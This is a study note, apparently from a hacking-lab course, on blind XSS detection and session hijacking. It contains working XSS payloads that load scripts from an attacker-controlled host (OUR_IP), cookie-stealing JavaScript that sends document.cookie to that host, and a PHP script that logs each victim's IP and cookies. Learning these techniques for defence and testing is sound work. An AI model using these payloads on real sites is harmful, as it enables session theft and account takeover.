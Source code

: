 
***
###### `Title :- Session Hijacking`
###### `Created on :- 2023-06-13 - 06:19`
###### `Created by:- Prem J`
***

- Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date
- attacker with the ability to execute JavaScript on victim's browser can leverage this and attain target cookies to hijack their logged-in session performing a ***Session Hijacking*** or ***Cookie Stealing***

#### `Blind XSS Detection -->`

- A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to, it is similar to stored XSS, but we can't really see the payload working or be able to test against yourself first.
- Blind XSS vulnerabilites usually occur with forms only accessible by certain users.

#### `Example Scenario -->`

- let us take a forum which will be filled by us and reviewed by someone else.

![[Pasted image 20230613065141.png]]

- once we submit it will be showing, Indicating that we will not see how out input will be handled or how it will look in the browser since it will be appearing only for the admin

![[Pasted image 20230613065210.png]]

- If we could be able to see the process of input handling we add alert box in each field verify for XSS vulnerability.
- We will use a JavaScript payload that sends an HTTP request back to our server. If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.
- However, this introduces ***two issues***:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

#### `Loading Remote Script -->`

- In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL, as follows:

```html
<script src="http://OUR_IP/script.js"></script>
```

- So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from `script.js` to the ***name of the field*** we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:

```html
<script src="http://OUR_IP/username"></script>
```

- If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

- before we start sending payloads we need to start a listener using `netcat` or `php` same as in [[Phishing#`Credential Stealing -->`]], after which we can start testing the payloads

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

>[!tip]
>We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

- Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.

![[Screenshot from 2023-06-13 07-49-15.png]]

#### `Session Hijacking -->`

- Upon finding a working payload and the vulnerable input field, we can proceed to XSS exploitation to perform a session hijacking attack.
- There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

- above two perform the session hijack, we can write any of the two to `script.js`. Now, we can change the URL in the XSS payload we found earlier to use `script.js`

```html
<script src=http://OUR_IP/script.js></script>
```

- With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. 
- However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.
- We can save the following PHP script as `index.php`, and re-run the PHP server again:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

- Above script is different from one in [[Phishing]]
- Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:

```shell-session
premjampuram@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

- We can use the cookies in login page as a key-value pair in storage to gain the target session.